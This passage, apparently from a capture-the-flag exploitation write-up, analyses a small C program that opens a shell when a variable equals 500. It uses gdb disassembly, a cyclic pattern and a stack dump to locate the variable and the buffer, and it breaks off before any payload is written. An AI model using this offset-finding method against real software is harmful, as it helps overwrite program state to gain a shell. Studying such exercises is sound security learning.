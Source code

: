 ```c
return 0;
}
```

The program defines int variable `i`, and string variable `buffer` of length 64 bytes.
Then, the program uses `snprintf()` to print the size of the buffer to the output stream given with `argv[1]`.

The program then checks if `i==500`, and if so we get a shell.


Let's use gdb to see where the variables are stored.

```ruby
(gdb) disas main
Dump of assembler code for function main:
   0x080491d6 <+0>: push   ebp
   0x080491d7 <+1>: mov    ebp,esp
   0x080491d9 <+3>: push   ebx
   0x080491da <+4>: sub    esp,0x44
   0x080491dd <+7>: mov    DWORD PTR [ebp-0x8],0x1
   0x080491e4 <+14>: mov    eax,DWORD PTR [ebp+0xc]
   0x080491e7 <+17>: add    eax,0x4
   0x080491ea <+20>: mov    eax,DWORD PTR [eax]
   0x080491ec <+22>: push   eax
   0x080491ed <+23>: push   0x40
   0x080491ef <+25>: lea    eax,[ebp-0x48]
   0x080491f2 <+28>: push   eax
   <code snipped>
```

Two instruction look interesting to me:

```C
0x080491dd <+7>: mov    DWORD PTR [ebp-0x8],0x1

0x080491ef <+25>: lea    eax,[ebp-0x48]
```
 These two instructions are indicating that the variable `i` is located at `[ebp-0x8]`, and the buffer variable is located at `[ebp-0x48]`.

Next, in instruction `main+57` the program performs the comparison `i==500 `
```ruby
0x0804920c <+54>: mov    eax,DWORD PTR [ebp-0x8]
0x0804920f <+57>: cmp    eax,0x1f4
```

This is the place we will break the code to see what value EAX will hold at the time of the comparison.
```ruby
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9

Breakpoint 1, 0x0804920f in main ()
(gdb) x/90xb $esp
0xffffd460: 0x41 0x61 0x30 0x41 0x61 0x31 0x41 0x61
0xffffd468: 0x32 0x41 0x61 0x33 0x41 0x61 0x34 0x41
0xffffd470: 0x61 0x35 0x41 0x61 0x36 0x41 0x61 0x37
0xffffd478: 0x41 0x61 0x38 0x41 0x61 0x39 0x41 0x62
0xffffd480: 0x30 0x41 0x62 0x31 0x41 0x62 0x32 0x41
0xffffd488: 0x62 0x33 0x41 0x62 0x34 0x41 0x62 0x35
0xffffd490: 0x41 0x62 0x36 0x41 0x62 0x37 0x41 0x62
0xffffd498: 0x38 0x41 0x62 0x39 0x41 0x63 0x30 0x00
0xffffd4a0: 0x01 0x00 0x00 0x00 0x00 0xa0 0xe2 0xf7
0xffffd4a8: 0x20 0xd0 0xff 0xf7 0x19 0x15 0xc2 0xf7
0xffffd4b0: 0x02 0x00 0x00 0x00 0x64 0xd5 0xff 0xff
0xffffd4b8: 0x70 0xd5

x/16xb $ebp-0x8
```